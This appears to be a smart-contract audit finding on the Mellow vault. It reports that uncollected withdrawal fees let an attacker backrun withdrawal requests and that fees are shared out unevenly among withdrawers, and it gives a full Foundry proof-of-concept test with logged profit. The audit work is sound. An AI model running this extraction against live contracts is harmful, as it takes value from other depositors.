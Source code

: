 Beautiful Teal Kookaburra

Medium

# Withdrawal fee is charged but not collected, prone to MEV extraction

## Summary
The protocol team on discord states that `Formally, if in Vault you can deposit only in wsteth, and withdraw only in weth, then the operation deposit + registerWithdrawal + processWithdrawals will look like swap wsteth->weth. And if withdrawalFeeD9 == 0, then this is a zero-cost swap. Therefore, the withdrawalFeeD9 parameter was introduced here, which does not allow “free” token swaps to be made in this way.`

Meaning, that it is intentional to leave the withdrawal fee and not transfer it to admin. But this intention of not collecting the fee impacts on the system due to the
1. constant MEV extraction on every `registerWithdrawal`. It is intended that the charged fee should increase the share value of the LP who already been deposited in the vault. But some attacker takes a cut of this fee gain intended for existing LP by MEV backruns.
2. The withdrawal fee distribution back to the vault on every processed withdrawal is unfair to early withdrawers because the next withdrawers are getting benefitted from those fees.


## Vulnerability Detail

There are 3 issues, 

1. when all the withdrawers are processed the last withdrawer's fees are stuck in that contract and are of no use, impacting underlying token removal action which checks if balance of that token == 0, even though `delegatecall` can be called and moved by admin, it's a heavy work not in the intention of team.
3. the last withdrawers will get more than deserving, even after deducting the fees, because all the previous user's withdrawal fee cuts will be in the contract, and lp share value gets inflated. The more users withdraw before you, the better. This is unfair to early withdrawers.
4. MEV attack possible explained below with POC. 

MEV attack
1. User1 deposits 100 eth, user2 with 200 eth ad user3 with 50eth
2. After a while user2 calls `registerWithdrawal` and waits for operator to call `processWithdrawals`.
3. But the attacker backruns user2's `registerWithdrawal` with `deposit` of 10 eth.
5. Now the attacker waits for operator to call `processWithdrawals` and immediately backruns in next block to call `registerWithdrawal` and waits for operator to `processWithdrawals`, which will send > 10.012 eth even after the withdrawal fee as seen in the POC.

```sh
Ran 1 test for tests/mainnet/Vault.t.sol:VaultTestMEV
[PASS] testMEV() (gas: 632581)
Logs:
  Balance before : WSTETH.balanceOf(attacker):  10000000000000000000
  Balance After : WSTETH.balanceOf(attacker):  10012187499999999999
```

> Paste the below POC into `Vault.t.sol.t.sol` on `tests/mainnet/` folder  and then run  `forge t --mt testMEV --vvvv`

<details>
<summary>POC (click to dropdown) </summary>

```solidity
// SPDX-License-Identifier: BSL-1.1
pragma solidity 0.8.25;

import "../mainnet/Constants.sol";
import "../../src/Vault.sol";
import "forge-std/Test.sol";
import "forge-std/Vm.sol";


contract VaultTestMEV is Test {
    using SafeERC20 for IERC20;

    address public immutable admin = address(this);
    address public immutable operator =address(this);
    address user1 = address(1);
    address user2 = address(2);
    address user3 = address(3);
    address attacker = address(bytes20(keccak256((hex"c0ffee"))));

 Vault vault;


    function testMEV() public {
 console.log('Balance before : WSTETH.balanceOf(attacker): ', IERC20(Constants.WSTETH).balanceOf(attacker));
        assertEq(IERC20(Constants.WSTETH).balanceOf(attacker), 10e18);
    
        uint[] memory minAmounts = new uint[](1);
 minAmounts[0] = 200e18  * 99 / 100;
 vm.prank(user2);
 vault.registerWithdrawal(user2, 200e18, minAmounts, type(uint).max, type(uint).max, false);

        uint[] memory amounts = new uint[](1);
 amounts[0] = 10e18;
 vm.prank(attacker);
 vault.deposit(address(attacker), amounts, 10e18, type(uint).max);

        address[] memory users = new address[](1);
 users[0] = user2;
 vault.processWithdrawals(users);


 minAmounts[0] = 10e18  * 99 / 100;
 vm.prank(attacker);
 vault.registerWithdrawal(attacker, 10e18, minAmounts, type(uint).max, type(uint).max, false);


 users[0] = attacker;
 vault.processWithdrawals(users);

        assertGt(IERC20(Constants.WSTETH).balanceOf(attacker), 10e18);
 console.log('Balance After : WSTETH.balanceOf(attacker): ', IERC20(Constants.WSTETH).balanceOf(attacker));
 }





    function setUp() public {
 vm.createSelectFork("https://eth.llamarpc.com", 20173392);
 vault = new Vault("stake","stake",admin);
 ERC20TvlModule erc20TvlModule = new ERC20TvlModule();
 vault.addTvlModule(address(erc20TvlModule));

 vault.addToken(Constants.WSTETH);
 VaultConfigurator configurator = VaultConfigurator(
            address(vault.configurator())
 );

        // oracles setup
 {
 ManagedRatiosOracle ratiosOracle = new ManagedRatiosOracle();

            uint128[] memory ratiosX96 = new uint128[](1);
 ratiosX96[0] = 2 ** 96;
 ratiosOracle.updateRatios(address(vault), true, ratiosX96);
 ratiosOracle.updateRatios(address(vault), false, ratiosX96);

 configurator.stageRatiosOracle(address(ratiosOracle));
 configurator.commitRatiosOracle();

 ChainlinkOracle chainlinkOracle = new ChainlinkOracle();
 chainlinkOracle.setBaseToken(address(vault), Constants.WSTETH);
            address[] memory tokens = new address[](1);
 tokens[0] = Constants.WSTETH;

 IChainlinkOracle.AggregatorData[]
                memory data = new IChainlinkOracle.AggregatorData[](1);
 data[0] = IChainlinkOracle.AggregatorData({
 aggregatorV3: address(
                    new WStethRatiosAggregatorV3(Constants.WSTETH)
 ),
 maxAge: 30 days
 });
 chainlinkOracle.setChainlinkOracles(address(vault), tokens, data);

 configurator.stagePriceOracle(address(chainlinkOracle));
 configurator.commitPriceOracle();
 }

 configurator.stageMaximalTotalSupply(10000 ether);
 configurator.commitMaximalTotalSupply();

 ManagedValidator validator = new ManagedValidator(admin);
 configurator.stageValidator(address(validator));
 configurator.commitValidator();
 validator.grantContractRole(address(vault), 100);
 validator.grantRole(address(user1), 100);
 validator.grantRole(address(user2), 100);
 validator.grantRole(address(user3), 100);
 validator.grantRole(address(attacker), 100);

 vm.label(user1, "user:1");
 vm.label(user2, "user:2");
 vm.label(user3, "user:3");
 vm.label(attacker, "attacker");
 vm.label(Constants.WSTETH, "WSTETH");
        deal(Constants.WSTETH, user1, 100e18);
        deal(Constants.WSTETH, user2, 200e18);
        deal(Constants.WSTETH, user3, 50e18);
        deal(Constants.WSTETH, attacker, 10e18);

 vm.prank(user1);
        IERC20(Constants.WSTETH).approve(address(vault), type(uint).max);
 vm.prank(user2);
        IERC20(Constants.WSTETH).approve(address(vault), type(uint).max);
 vm.prank(user3);
        IERC20(Constants.WSTETH).approve(address(vault), type(uint).max);
 vm.prank(attacker);
        IERC20(Constants.WSTETH).approve(address(vault), type(uint).max);

        deal(Constants.WSTETH, address(this), 1000);
        IERC20(Constants.WSTETH).approve(address(vault), type(uint).max);
        uint[] memory amounts = new uint[](1);
 amounts[0] = 1000;
 vault.deposit(address(vault), amounts, 1000, type(uint).max);

 amounts[0] = 100e18;
 vm.prank(user1);
 vault.deposit(address(user1), amounts, 100e18, type(uint).max);
 amounts[0] = 200e18;
 vm.prank(user2);
 vault.deposit(address(user2), amounts, 200e18, type(uint).max);
 amounts[0] = 50e18;
 vm.prank(user3);
 vault.deposit(address(user3), amounts, 50e18, type(uint).max);


 configurator.stageWithdrawalFeeD9(5e6); // 5%
 configurator.commitWithdrawalFeeD9();
 }


}
```
</details>


**Issue flow :**
1. user calls `vault.registerWithdrawal` with 10e18 lp amount in a 100e18 total supply. So he is withdrawing 10% of the supply. And there is 1000 wstETH balance.
2. once the request is emitted, operator will fulfill the request by calling `vault.processWithdrawals` and it calculates how much value to withdraw after deducting the withdrawal fees at line 537 below.
3. if withdrawal fee is (0.5% ) which is 5e6 in D9 precision. Then value will 10% of 1000 steth = 100 steth, and in that 100eth * (1e9 - 5e6) / 1e9 = 99.9 wsteth.
4. Now, 0.5 eth is 1800$ currently. And that fee is charged, but not transferred to anyone. It just stays on the contract or on bond depending on the vault.
6. Those 0.5 eth will benefit to the remaining holders (90% of the lp), and they would get 0.5% higher share than what they used to get, squaring off their fees depending the previous withdrawer's volume. The first withdrawer's fees will benefit other withdrawers depending on the volume of lp value burnt by first user. Then next withdrawer's fees will also benefit next withdrawer.

https://github.com/sherlock-audit/2024-06-mellow/blob/26aa0445ec405a4ad637bddeeedec4efe1eba8d2/mellow-lrt/src/Vault.sol#L485-L487

```solidity
File: 2024-06-mellow/mellow-lrt/src/Vault.sol

527:     function analyzeRequest(
528:         ProcessWithdrawalsStack memory s,
529:         WithdrawalRequest memory request
530:     ) public pure returns (bool, bool, uint256[] memory expectedAmounts) {
531:         uint256 lpAmount = request.lpAmount;
... SNIP ...

536:         uint256 value = FullMath.mulDiv(lpAmount, s.totalValue, s.totalSupply);
537:  >>>>   value = FullMath.mulDiv(value, D9 - s.feeD9, D9);
538:         uint256 coefficientX96 = FullMath.mulDiv(value, Q96, s.ratiosX96Value);

... SNIP ...
543:         for (uint256 i = 0; i < length; i++) {
544:             uint256 ratiosX96 = s.ratiosX96[i];
545:             expectedAmounts[i] = ratiosX96 == 0
546:                 ? 0
547:                 : FullMath.mulDiv(coefficientX96, ratiosX96, Q96);
548:             if (expectedAmounts[i] >= request.minAmounts[i]) continue;
549:             return (false, false, expectedAmounts);
550:         }

556:     }

```

## Impact
MEV value extraction. Unfair fee charging for some users but benefiting for other users. The last user's withdrawal fee is forever locked in the contract. All with above medium likelihood.

## Code Snippet
https://github.com/sherlock-audit/2024-06-mellow/blob/26aa0445ec405a4ad637bddeeedec4efe1eba8d2/mellow-lrt/src/Vault.sol#L485-L487

## Tool used
Manual Review

## Recommendation

Move the withdrawal fee amount to admin or operator, don't leave it in the contract, prone to MEV extraction and unfair fee handling for early withdrawing users.
